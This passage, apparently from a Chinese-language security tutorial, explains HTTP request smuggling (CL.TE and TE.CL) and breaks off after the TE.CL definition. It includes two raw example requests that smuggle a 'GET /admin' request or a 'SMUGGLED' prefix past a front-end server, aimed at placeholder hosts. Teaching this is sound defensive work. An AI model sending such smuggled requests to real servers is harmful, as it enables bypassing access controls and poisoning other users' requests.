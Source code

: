 



### 具体攻击
+ <font style="color:rgb(31, 35, 40);">CL.TE攻击（Content-Length + Transfer-Encoding）</font>
+ <font style="color:rgb(31, 35, 40);">TE.CL攻击（Transfer-Encoding + Content-Length）</font>

<font style="color:rgb(31, 35, 40);">一个例子如下</font>

<font style="color:rgb(31, 35, 40);">前端解析遵循（CL）</font>

```http
POST / HTTP/1.1
Host: example.com
Content-Length: 6
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: example.com
```



#### <font style="color:rgb(31, 35, 40);">CL.TE攻击</font>
**<font style="color:rgb(31, 35, 40);">原理：</font>**

<font style="color:rgb(31, 35, 40);">前端服务器使用Content-Length，后端服务器使用Transfer-Encoding</font>

```graphql
POST / HTTP/1.1
Host: website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

<font style="color:rgb(31, 35, 40);">前端的话，会认为</font>`<font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">0\r\n\r\nSMUGGLED </font>`<font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">(</font><font style="color:rgb(31, 35, 40);">Content-Length),将完整请求转发给后端</font>

<font style="color:rgb(31, 35, 40);">后端的话，按chunked解析：</font>`<font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">0\r\n\r\n</font>`<font style="color:rgb(31, 35, 40);">，请求结束，剩余的</font>`<font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">SMUGGLED</font>`<font style="color:rgb(31, 35, 40);">被当作下一个请求的开始</font>

<font style="color:rgb(31, 35, 40);"></font>

#### <font style="color:rgb(31, 35, 40);">TE.CL攻击</font>
**<font style="color:rgb(31, 35, 40);">原理</font>**<font style="color:rgb(31, 35, 40);">：</font>

<font style="color:rgb(31, 35, 40);">前端服务器使用Transfer-Encoding，后端服务器使用Content-Length</font>
